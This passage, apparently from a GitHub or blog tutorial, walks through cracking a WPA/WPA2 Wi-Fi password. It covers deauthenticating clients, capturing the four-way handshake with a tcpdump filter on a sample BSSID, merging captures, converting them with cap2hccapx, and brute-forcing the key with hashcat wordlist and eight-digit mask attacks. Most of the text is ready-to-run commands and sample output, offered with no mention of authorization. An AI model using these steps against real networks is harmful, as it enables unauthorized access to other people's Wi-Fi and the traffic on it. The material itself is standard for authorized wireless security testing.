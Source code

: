 > NOTE: It seeams that Jam Wi-Fi was unsupported by author. I recommend use `bettercap` and [this manual][bettercap-article] to deauth clients if you have trouble to run Jam Wi-Fi.

1. When you "Done" with death, run quickly next command. You have to capture a **handshake** in time
```bash
export BSSID=6e:57:ca:24:09:8c
sudo tcpdump "ether proto 0x888e and ether host $BSSID" -I -U -vvv -i en0 -w handshake.cap
```
Wait until you see some gotten frames, like this
```
Got 19
```
When tcpdump shows you it got 4 frames or more. It appears you can use less that 4 frames, but it depends on the frames you got (for instance 1,2 or 2,3 are sufficient). Anyway you should normally get at least 4. If nothing shows, try to deauth another user.

After you have it press `"Control + C"` to stop capturing.

7. Merge the Beacon and Handshake
```
mergecap -a -F pcap -w capture.cap beacon.cap handshake.cap
```

## brute forcing
> - Brute Force — A brute-force attack consists of an attacker submitting many passwords or passphrases with the hope of eventually guessing correctly.
> - Wordlist — A written collection of all words derived from a particular source.

.1. Generating HCCPAX File
```
cap2hccapx capture.cap capture.hccapx
```
Hashcat doesn’t take cap files, only hccapx files. So we need convert this files. Other way to made it is use a [online tool](https://hashcat.net/cap2hccapx/).

Review the result. You should see the phrase `Networks detected: X... Written X WPA Handshakes`. The example of success result is:
```
Networks detected: 1
[*] BSSID=6e:57:ca:24:09:8c ESSID=Ruslan Gainanov (Length: 15)
--> STA=14:16:9e:67:7e:c5, Message Pair=0, Replay Counter=1
--> STA=14:16:9e:67:7e:c5, Message Pair=2, Replay Counter=1
--> STA=14:16:9e:67:7e:c5, Message Pair=0, Replay Counter=1
--> STA=14:16:9e:67:7e:c5, Message Pair=2, Replay Counter=1

Written 4 WPA Handshakes to: capture.hccapxn
```

.2. Now, everything are right to execute the **hashcat**. We can use a wordlist or a pattern to broke a password.
Using a wordlist (example of wordlists - https://github.com/kennyn510/wpa2-wordlists.git):
```
hashcat -m 2500 capture.hccapx wordlist.txt
```
Using a pattern - 8 digits:
```
hashcat -m 2500 -a3 capture.hccapx "?d?d?d?d?d?d?d?d"
```
For more examples press [here](https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2). For more patterns, see the [documentation](https://hashcat.net/wiki/doku.php?id=mask_attack).


[aircrack]: https://www.aircrack-ng.org/
[hashcat]: https://hashcat.net
[wireshark]: https://www.wireshark.org/
[hcxtools]: https://github.com/ZerBea/hcxtools
[jamwifi]: http://macheads101.com/pages/downloads/mac/JamWiFi.app.zip
[tshark]: https://www.wireshark.org/docs/wsug_html_chunked/AppToolstshark.html#:~:text=TShark%20is%20a%20terminal%20oriented,tshark%20)%20or%20the%20online%20version.
[bettercap-article]: {% post_url 2022-09-25-wifi-deauth-attack.md %}